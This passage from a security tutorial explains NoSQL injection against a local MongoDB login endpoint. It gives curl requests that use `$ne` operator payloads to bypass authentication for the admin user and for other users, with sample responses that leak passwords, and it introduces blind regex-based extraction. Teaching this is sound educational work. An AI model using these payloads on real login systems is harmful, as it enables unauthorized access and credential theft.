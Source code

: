 But this example assumes knowledge of a password in the database. That is not necessarily a realistic scenario. What if we instead use `$ne` in the `password` field, requesting a record for the `admin` user with a non-blank password:

```shell
curl -X POST http://127.0.0.1:9000/login \
	-H "Content-Type: application/json" \
	-d '{"username": "admin", "password": {"$ne": ""}}'
# should return the following
{
  "message": "Authentication successful",
  "user": {
    "id": 1,
    "password": "pass",
    "username": "admin"
  }
}
```

It returns a result! We just used the `$ne` operator to force some unexpected behavior and leak information from the database without knowing _any_ password.

We can use it to similarly isolate different users, such as selecting any non-`admin` user in the database:

```shell
curl -X POST http://127.0.0.1:9000/login \
	-H "Content-Type: application/json" \
	-d '{"username": {"$ne": "admin"}, "password": {"$ne": ""}}'
# should return the following
{
  "message": "Authentication successful",
  "user": {
    "idx": 1,
    "password": "fail",
    "username": "noob"
  }
}
```

#### Blind NoSQLi with Query Operators

While this `$ne` test was useful for understanding valid and invalid queries, it is not necessarily representative of a real-world server (as in, real-world servers wouldn't write "$ne" within the password check...). Most servers will respond with some error-based or status-based indicator as to whether a query succeeded—it will generally not print out the record directly. That said, we can use similar Blind SQLi techniques to leak data within a record byte-by-byte.

MongoDB allows for [`regex`](https://www.mongodb.com/docs/manual/reference/operator/query/regex/) filters within a query. We can perform a similar match to Blind SQLi in the last lesson or the prior `this.password[0]` comparison using the `^` [operator](https://support.workiva.com/hc/en-us/articles/4407304269204-Regular-expression-operators). This compares the start of the string with the subquery provided.

> We will not cover the regex language here, but it is a powerful utility to find and match substrings. This [regex playground](https://regexr.com/) is particularly useful for experimenting and confirming queries are operating as intended.
